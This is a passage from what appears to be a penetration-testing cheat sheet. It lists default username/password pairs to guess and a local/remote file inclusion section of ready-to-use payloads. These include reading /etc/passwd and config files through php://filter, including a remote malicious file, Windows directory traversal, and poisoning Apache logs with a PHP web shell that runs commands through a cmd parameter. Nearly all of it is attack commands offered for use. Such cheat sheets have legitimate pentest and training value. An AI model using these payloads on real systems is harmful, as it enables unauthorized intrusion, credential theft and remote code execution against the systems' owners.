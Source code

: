 ```
admin / admin
admin / password
admin / admin12345
admin / letmeinplease
admin / <blank>
admin / <servicename>
admin / <name of the box>
administrator / admin
user / user
user / 12345
user / password
guest / guest
root / root
root / admin
root / password
root / <servicename>
<username if you have> / password
<username if you have> / admin
<username if you have> / username
username / <servicename>
<name of the box> / <name of the box>
<name of the service / application> <name of the service / application>
default account / <name of the application>

```


### LFI/RFI


```
fimap -u "http://10.11.1.111/example.php?test="

# Ordered output
curl -s http://10.11.1.111/gallery.php?page=/etc/passwd
/root/Tools/Kadimus/kadimus -u http://10.11.1.111/example.php?page=

http://10.11.1.111/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd && base64 -d savefile.php
http://10.11.1.111/page=http://10.11.1.111/maliciousfile.txt%00 or ?
?page=php://filter/convert.base64-encode/resource=../config.php

file=C:\windows\system32\drivers\etc\hosts  #Windows file

amap -d 10.11.1.111 8000

# LFI Windows

http://10.11.1.111/addguestbook.php?LANG=../../windows/system32/drivers/etc/hosts%00

../../../../../boot.ini  #Windows file


# Contaminating log files

root@kali:~# nc -v 10.11.1.111 80
10.11.1.111: inverse host lookup failed: Unknown host
(UNKNOWN) [10.11.1.111] 80 (http) open
 <?php echo shell_exec($_GET['cmd']);?>

http://10.11.1.111/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig  #Will work if directory traversal is available.

# RFI:
```